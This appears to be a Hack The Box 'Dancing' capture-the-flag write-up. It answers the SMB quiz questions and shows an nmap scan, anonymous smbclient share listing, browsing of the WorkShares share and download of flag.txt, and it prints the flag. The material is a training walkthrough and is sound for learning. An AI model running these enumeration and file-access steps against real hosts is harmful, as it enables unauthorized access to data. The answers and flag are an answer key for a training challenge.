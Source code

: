# Dancing
* Source: [Hack the Box](https://hackthebox.com/)
* Challenge: Dancing
* Topic: SMB
* Difficulty: Very easy
* Date: 12-04-2022
* Author: [DjikstraCS](https://github.com/DjikstraCS)

---

## Tasks
1. What does the 3-letter acronym SMB stand for? 
 - **Server Message Block**
2. What port does SMB use to operate at? 
- **445**
3. What network communication model does SMB use, architecturally speaking? 
- **client-server model**
4. What is the service name for port 445 that came up in our nmap scan? 
- **microsoft-ds**
5. What is the tool we use to connect to SMB shares from our Linux distribution? 
- **smbclient**
6. What is the 'flag' or 'switch' we can use with the SMB tool to 'list' the contents of the share? 
- **-L**
7. What is the name of the share we are able to access in the end?
- **WorkShares**
8. What is the command we can use within the SMB shell to download the files we find? 
- **get**

---
## Solution:
First, we need to scan the target with `nmap`.

Command:

`nmap -n -sC -sV 10.129.229.124`

`-n`: No DNS look up (Good [OPSEC](https://en.wikipedia.org/wiki/Operations_security)).

`-sC`: Run scripts during scan.

`-sV`: Try to detect the version of running services.

```console
┌──(kali㉿kali)-[~/Downloads]
└─$ nmap -sV 10.129.229.124
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-12 07:26 EDT
Nmap scan report for 10.129.229.124
Host is up (0.078s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Nmap done: 1 IP address (1 host up) scanned in 12.82 seconds
```

It's running SMB on port 445. We can use `smbclient` to list te shares. 

Command:

`smbclient -L 10.129.229.124`

`-L`: Get a list of shares available on a host.

```
┌──(kali㉿kali)-[~/Downloads]
└─$ smbclient -L 10.129.229.124
Enter WORKGROUP\kali's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.229.124 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

Awesome, there is a share for us to poke around in. To access it, we need to follow a special syntax.

Command:

 `smbclient \\\\10.129.229.124\\WorkShares`
 
`\\\\`: Equals to "\\\\" when interpreted, means root of directory.

`\\`: Equals to "\\" when interpreted, means new directory level.

```
┌──(kali㉿kali)-[~/Downloads]
└─$ smbclient \\\\10.129.229.124\\WorkShares
Enter WORKGROUP\kali's password: 
Try "help" to get a list of possible commands.
```

`ls` to show the contents of the share.

```
smb: \> ls
  .                                   D        0  Tue Apr 12 11:37:11 2022
  ..                                  D        0  Tue Apr 12 11:37:11 2022
  Amy.J                               D        0  Mon Mar 29 05:08:24 2021
  James.P                             D        0  Thu Jun  3 04:38:03 2021

                5114111 blocks of size 4096. 1751219 blocks available
```

`cd` to change directory into the James.P folder. 

```
smb: \> cd James.P
smb: \James.P\> ls
  .                                   D        0  Thu Jun  3 04:38:03 2021
  ..                                  D        0  Thu Jun  3 04:38:03 2021
  flag.txt                            A       32  Mon Mar 29 05:26:57 2021

                5114111 blocks of size 4096. 1751219 blocks available
```

We can see the flag. We can use `get` to download the file via SMB.

Type `exit` to gracefully close the connection afterwards.

```
smb: \James.P\> get flag.txt
getting file \James.P\flag.txt of size 32 as flag.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \James.P\> exit
```

Now that we have the file, we just need to `cat` it.

```
┌──(kali㉿kali)-[~/Downloads]
└─$ cat flag.txt
5f61c10dffbc77a704d76016a22f1664 
```

**Flag:** `5f61c10dffbc77a704d76016a22f1664`

---
**Tags:** [[HackTheBox]]